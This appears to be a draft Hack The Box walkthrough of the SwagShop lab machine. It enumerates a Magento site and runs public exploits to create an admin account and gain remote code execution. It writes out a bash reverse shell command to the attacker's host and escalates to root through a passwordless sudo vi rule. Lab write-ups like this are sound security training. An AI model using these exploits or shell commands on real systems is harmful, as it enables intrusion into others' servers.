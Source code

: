 ```yaml
---
author: bhero
topic: htb
ip: "10.10.10.140"
htbName: SWAGSHOP
pic: https://www.hackthebox.eu/storage/avatars/23477a54b0a750374e281656d69e7661.png
user: xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
root: xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
hide: XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
frontPage: False
---
```


DRAFT: Walkthrough for {{ page.htbName }} - {{ page.ip }}



## Enumeration

first we assign the ip addresses to a local variables:
 
``` bash
TARGET={{ page.ip }}
ATTACK=10.10.14.34
```
 

Then we run the nmap scan

``` bash
sudo nmap $TARGET -Pn
```

```
Nmap scan report for 10.10.10.140
Host is up (0.031s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

I visit the website in Firefox to see Magento:

![magento.png](/assets/htb_stuff/swagshop/magento.png)



> TODO gobuster the admin panel

## Triage


Check the source code to see it is 2014.

chech searsploit

``` bash
searchsploit magento
```

There are a few, I look through them:

```
----------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                               |  Path
                                                                             | (/usr/share/exploitdb/)
----------------------------------------------------------------------------- ----------------------------------------
Magento 1.2 - '/app/code/core/Mage/Admin/Model/Session.php?login['Username'] | exploits/php/webapps/32808.txt
Magento 1.2 - '/app/code/core/Mage/Adminhtml/controllers/IndexController.php | exploits/php/webapps/32809.txt
Magento 1.2 - 'downloader/index.php' Cross-Site Scripting                    | exploits/php/webapps/32810.txt
Magento < 2.0.6 - Arbitrary Unserialize / Arbitrary Write File               | exploits/php/webapps/39838.php
Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution                 | exploits/php/webapps/37811.py
Magento Server MAGMI Plugin - Multiple Vulnerabilities                       | exploits/php/webapps/35996.txt
Magento Server MAGMI Plugin 0.7.17a - Remote File Inclusion                  | exploits/php/webapps/35052.txt
Magento eCommerce - Local File Disclosure                                    | exploits/php/webapps/19793.txt
Magento eCommerce - Remote Code Execution                                    | exploits/xml/webapps/37977.py
eBay Magento 1.9.2.1 - PHP FPM XML eXternal Entity Injection                 | exploits/php/webapps/38573.txt
eBay Magento CE 1.9.2.1 - Unrestricted Cron Script (Code Execution / Denial  | exploits/php/webapps/38651.txt
----------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result
```


Exploit 37811.py has RCE but needa authentication to work, which I don't have. On further reading I notice 37977.py creates admin accounts.

This looks promisining as I uses injection to create a ner admin user as it does not require authentication then chain it to get a shell.

``` bash
searchsploit -x 37977
```


## Exploit

I copy it to my working directory 

``` bash
searchsploit -m 37977
```

and edit the code as to remove all the non python code and define a target url:

```
target = "http://10.10.10.140/index.php" #line 31
```

I run with:

``` bash
python 37977.py 
```


This appears to work

```
WORKED
Check http://10.10.10.140/index.php/admin with creds forme:forme
```

so I try to login:


![login.png](/assets/htb_stuff/swagshop/login.png)


But this fails, hmmm what did I do wrong?

> TODO gobuster analysis


I go to the admin panel at http://10.10.10.140/index.php/admin and try:

![admin.png](/assets/htb_stuff/swagshop/admin.png)

it works!

![accesss.png](/assets/htb_stuff/swagshop/accesss.png)


Now that I have the frome:forem access credentials I look at the the other exploit. I start by copying it to my working directory:

``` bash
searchsploit -m 37811
```

I edit the source code to add the username and password vaues:

``` python
username = 'forme' #line 32
password = 'forme' #line 33
```

form http://10.10.10.140/app/etc/local.xml I get the install date:

``` xml
<![CDATA[ Wed, 08 May 2019 07:23:09 +0000 ]]>
```

So I change line 35 to:

``` python
install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml
```

when I execute with:

``` bash
python 37811.py http://$TARGET/index.php/admin/ "uaname -a"
```

I get back an error:

```
Traceback (most recent call last):
  File "37811.py", line 69, in 
    tunnel = tunnel.group(1)
AttributeError: 'NoneType' object has no attribute 'group'
```

> So it appeared that the request URL just before line 69 was not entirely correct as it resulted in an empty group. Interestingly, this line contained an Ajax request with the statement of a certain period. After trying this request with several possible options in a python console, it resulted that the option of a period of 1 year was the right setting.



I change the tab orders period to 1 yr:

``` python
request = br.open(url + 'block/tab_orders/period/1y/?isAjax=true', data='isAjax=false&form_key=' + key) #line 69
```

and run:

```
python 37811.py http://$TARGET/index.php/admin/ "uname -a"
```

This time I get no errors, suggesting blind command execution I try a shell:

``` bash
python 37811.py http://$TARGET/index.php/admin/ "bash -c 'bash -i >& /dev/tcp/10.10.14.37/1337 0>&1'"
```

And get RCE:

```
connect to [10.10.14.37] from (UNKNOWN) [10.10.10.140] 60276
bash: cannot set terminal process group (1291): Inappropriate ioctl for device
bash: no job control in this shell
www-data@swagshop:/var/www/html$ 
```


## Priv Escalation

I background the shell with Ctl^Z then in the original terminal forward the settings and restart the backround reverse shell with the following commands:

``` bash
stty raw -echo
fg
```

This forwards my terminal special keys, next I run

``` bash
sudo -l
```

to see my user can run `sudo /usr/bin/vi /var/www/html/*` with no password requirements:

```
Matching Defaults entries for www-data on swagshop:
                                                                         env_reset, mail_badpass,
                                                                                                     secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

                                                                       User www-data may run the following commands on swagshop:
              (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

This is great as I can call potentially call a priveleged shell in vi:

``` bash
sudo /usr/bin/vi /var/www/html/pwnd
```

``` vi
:! /bin/sh
```

> t this point my shell broke, I had to revert. second time I didn't botehr with the TTY forwarding

And I'm root! W00t!W00t!

```
id
uid=0(root) gid=0(root) groups=0(root)
```


## Bonus

TODO Debugging the RCE script and gobuster